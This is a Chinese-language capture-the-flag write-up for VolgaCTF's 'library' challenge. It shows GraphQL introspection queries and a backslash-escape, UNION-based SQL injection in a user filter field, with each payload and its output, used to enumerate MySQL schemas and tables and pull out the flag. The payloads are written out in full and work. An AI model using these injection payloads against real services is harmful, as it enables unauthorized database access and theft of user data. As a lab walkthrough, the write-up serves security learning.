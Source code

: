 # library

這題方向還蠻明確的

javascript 檔案裡面直接呼叫後端 API 的graphql 功能

所以很明顯是要打 graphql

<br>

先嘗試 dump schema

`{"query":"query {__schema{types{name}} }"}`

=>

`{"data":{"__schema":{"types":[{"name":"Query"},{"name":"String"},{"name":"LoginUser"},{"name":"LoginResponse"},{"name":"UserFilter"},{"name":"User"},{"name":"Book"},{"name":"Mutation"},{"name":"RegisterUser"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"Boolean"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}`

<br>

`{"query":"query {__schema{queryType{fields{name type {kind ofType {kind name}}}}}}"}`

=>

`{"data":{"__schema":{"queryType":{"fields":[{"name":"_empty","type":{"kind":"SCALAR","ofType":null}},{"name":"login","type":{"kind":"OBJECT","ofType":null}},{"name":"testGetUsersByFilter","type":{"kind":"LIST","ofType":{"kind":"OBJECT","name":"User"}}},{"name":"books","type":{"kind":"LIST","ofType":{"kind":"OBJECT","name":"Book"}}}]}}}}`

<br>

User:

`{"query":"query {__type(name: \"User\"){name, fields {name, type {name, kind ofType{name kind}}}} }"}`

=>

`{"data":{"__type":{"name":"User","fields":[{"name":"login","type":{"name":"String","kind":"SCALAR","ofType":null}},{"name":"name","type":{"name":"String","kind":"SCALAR","ofType":null}},{"name":"email","type":{"name":"String","kind":"SCALAR","ofType":null}}]}}}`

<br>

取得使用者帳密:

`{"query":"query {testGetUsersByFilter(filter:{}){name email login}}"}`

但裡面沒看到啥有用資訊

<br>

接著，剛好伺服器有點問題，直接噴錯

`{"errors":[{"message":"connect ECONNREFUSED 172.17.0.2:3306","locations":[{"line":2,"column":3}],"path":["books"],"extensions":{"code":"INTERNAL_SERVER_ERROR","exception":{"errno":"ECONNREFUSED","code":"ECONNREFUSED","syscall":"connect","address":"172.17.0.2","port":3306,"fatal":true}}}],"data":{"books":null}}`

所以知道背後是串 MySQL

接著就嘗試找看看哪邊可能出 SQL Injection

最後發現

`{"query":"query {testGetUsersByFilter(filter:{email:\"\\\\\"}){name email login}}"}`

=>

Error: `{"errors":[{"message":"Database error","locations":[{"line":1,"column":8}],"path":["testGetUsersByFilter"],"extensions":{"code":"INTERNAL_SERVER_ERROR"}}],"data":{"testGetUsersByFilter":null}}`


`{"query":"query {testGetUsersByFilter(filter:{email:\"\\\\asd\"}){name email login}}"}`

=> 

No Error

所以看起來這邊就是一個注入點，可以用反斜線跳脫

<Br>

接著開始撈資料

UNION Based:

`{"query":"query {testGetUsersByFilter(filter:{name:\"\\\\\", email:\"and 1=2 union select 1,2,3,4,5,6-- \"}){name email login}}"}`

欄位數是 6 個

撈 DB:

`{"query":"query {testGetUsersByFilter(filter:{name:\"\\\\\", email:\"and 1=2 union select 1,2,3,4,5,group_concat(schema_name) from information_schema.schemata-- \"}){name email login}}"}`

=>

`information_schema,library`

撈 Table:

`{"query":"query {testGetUsersByFilter(filter:{name:\"\\\\\", email:\"and 1=2 union select 1,2,3,4,5,group_concat(table_name) from information_schema.tables where table_schema=0x6c696272617279-- \"}){name email login}}"}`

=>

`books,flag,users`

撈 Column:

`{"query":"query {testGetUsersByFilter(filter:{name:\"\\\\\", email:\"and 1=2 union select 1,2,3,4,5,group_concat(column_name) from information_schema.columns where table_name=0x666c6167-- \"}){name email login}}"}`

=>

`flag`

最後直接撈 flag:

`VolgaCTF{EassY_GgraPhQl_T@@Sk_ek3k12kckgkdak}`

